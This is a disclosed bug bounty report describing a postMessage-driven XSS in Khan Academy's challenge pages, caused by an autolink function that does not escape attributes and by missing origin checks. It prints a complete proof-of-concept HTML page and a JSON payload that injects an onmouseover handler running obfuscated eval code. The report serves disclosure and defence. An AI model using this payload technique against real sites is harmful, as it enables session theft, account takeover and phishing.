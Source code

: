 # xss due to incorrect handling of postmessages

## Report Details
- **Report ID**: 1758132
- **URL**: https://hackerone.com/reports/1758132
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-11-01T23:12:11.302Z
- **Disclosed**: 2022-12-23T00:22:55.455Z

## Reporter
- **Username**: moom825
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: khanacademy

## Vulnerability Information
Due to Insecure handling of create link tags (a tags) in a function called `autolink` found in `7Bmt.af733e428f9f986dfc96.js`
```js
e = n.autolink(e, !0));
        const n = function() {
            const e = /\b(?:(?:https?:\/\/|www\d{0,3}[.]|[a-z0-9.\-]+[.][a-z]{2,4}\/)(?:[^\s()<>&]+|&amp;|\((?:[^\s()<>]|(?:\([^\s()<>]+\)))*\))+(?:\((?:[^\s()<>]|(?:\([^\s()<>]+\)))*\)|[^\s`!()\[\]{};:'".,<>?«»“”‘’&]))/gi;
            return {
                autolink: function(t, r) {
                    return t.replace(e, (function(e) {
                        /^https?:\/\//.test(e) || (e = "http://" + e);
                        return "<a " + (r ? 'rel="nofollow"' : "") + ' href="' + e + '">' + e + "</a>"
                    }
                    ))
                }
            }
        }();
```
which is ran in the challenges (ex: https://www.khanacademy.org/computing/computer-programming/programming/resizing-with-variables/pc/challenge-brown-bear-eyes). A specially crafted postmessage can abuse this.
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>New webpage</title>
    </head>
    <body>
        <script>
        function main()
{
	window['test']=window.open("https://www.khanacademy.org/computing/computer-programming/programming/interactive-programs/pc/challenge-mouse-movement-mania");
	const pwntimer = setTimeout(pwn, 3000);	
}
function pwn(){window['test'].postMessage('{"results":{"timestamp":'+Date.now()+',"code":"","errors":[],"assertions":[],"warnings":[],"tests":[{"name":"","state":"pass","results":[{"type":"assertion","msg":"http://#/\\"style=\\"width:2000px;height:2000px;position:fixed;top:0;left:0;margin-bottom:2000;z-index:200;\\"onmouseover=\\"eval(String.fromCharCode(97,108,101,114,116,40,34,112,119,110,100,33,34,41))\\"","state":"pass","expected":"","meta":{"structure":"function() {pwned!}"}}]}]}}',"*");clearTimeout(pwntimer)};
        </script>
        <button onclick="main();">press to pwn</button>
    </body>
</html>
```
also due to insecure host checking in the `message` event, the mentioned html code above can be run from any webpage.

The payload which the function `autolink` is insecurely creating the tag can look like this
`http://#/"style="width:2000px;height:2000px;position:fixed;top:0;left:0;margin-bottom:2000;z-index:200;"onmouseover="eval(String.fromCharCode(97,108,101,114,116,40,34,112,119,110,100,33,34,41))"` the malicious link will be set incorrectly and create extra attributes (in this case style and onmouseover)


the parsed json payload:
```json
{
   "results":{
      "timestamp":"",
      "code":"",
      "errors":[
         
      ],
      "assertions":[
         
      ],
      "warnings":[
         
      ],
      "tests":[
         {
            "name":"",
            "state":"pass",
            "results":[
               {
                  "type":"assertion",
                  "msg":"http://#/\"style=\"width:2000px;height:2000px;position:fixed;top:0;left:0;margin-bottom:2000;z-index:200;\"onmouseover=\"eval(String.fromCharCode(97,108,101,114,116,40,34,112,119,110,100,33,34,41))\"",
                  "state":"pass",
                  "expected":"",
                  "meta":{
                     "structure":"function() {pwned!}"
                  }
               }
            ]
         }
      ]
   }
}
```

## Impact

This attack could be steal user data (cookies, profile, etc) which in turn can be used to manipulate the user account, if it is a teacher who gets targeted, it can cause havoc with the email ("106 assignments have been assigned") as well as leak student private info. This attack could also be used to create a phishing page with the domain `khanacademy.org` by modifying the page to display a login box (stealing the users email and password).

## Attachments
- poc.mp4
